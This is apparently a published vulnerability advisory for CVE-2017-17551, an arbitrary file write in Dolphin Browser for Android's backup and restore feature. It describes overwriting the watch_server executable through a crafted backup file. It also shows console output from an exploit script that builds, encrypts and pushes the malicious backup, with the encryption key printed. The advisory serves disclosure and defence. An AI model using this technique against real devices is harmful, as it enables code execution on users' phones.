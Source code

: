 ### [VS-2017-001] Dolphin Browser Backup & Restore Arbitrary File Write Vulnerability

```
Download: https://play.google.com/store/apps/details?id=mobi.mgeek.TunnyBrowser&hl=en
CVE: CVE-2017-17551
Author: Benjamin Watson of VerSprite Security
Affected: < 12.0.2
```

#### Vulnerability Details

The Backup and Restore feature in Mobotap's Dolphin Browser for Android 12.0.2, suffers from an arbitrary file write vulnerability when attempting to restore browser settings from a malicious Dolphin Browser backup file. This arbitrary file write vulnerability, allows an attacker to overwrite a specific executable in the Dolphin Browser's data directory with a crafted malicious executable. Every time the Dolphin Browser is launched, it will attempt to run the malicious executable from disk, thus executing the attacker's code.

#### Exploitation

Exploitation occurs when the arbitrary file write is used to overite the `/files/watch_server` executable with a crafted payload.  Once the **Dolphin Browser** is launched, it will always attempt to execute the `watch_server` from disk.

```bash
./build.sh                                                                                                                                                                              130 ↵
[+] Building ... [!]
[armeabi-v7a] Install        : payload => libs/armeabi-v7a/payload
[+] Creating tmp.zip and injecting payload [!]
[+] Launching backup file format generation [!]
[+] Generating cipher [!]
[+] key --> 95acde261f3e09d281498163958dd366
[+] Building backup  --> ./backup.dbk [!]
[+] Encrypting and saving backup [!]
[+] Cleaning up [!]
[+] Pushing backup.dbk to the device [!]
backup.dbk: 1 file pushed. 0.6 MB/s (13926 bytes in 0.024s)
[+] Waiting on restore process ... [!]
--------- beginning of system
--------- beginning of main
V/FlipperFlapper(31220): uid=10177(u0_a177) gid=10177(u0_a177) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50177(all_a177) context=u:r:untrusted_app:s0
```
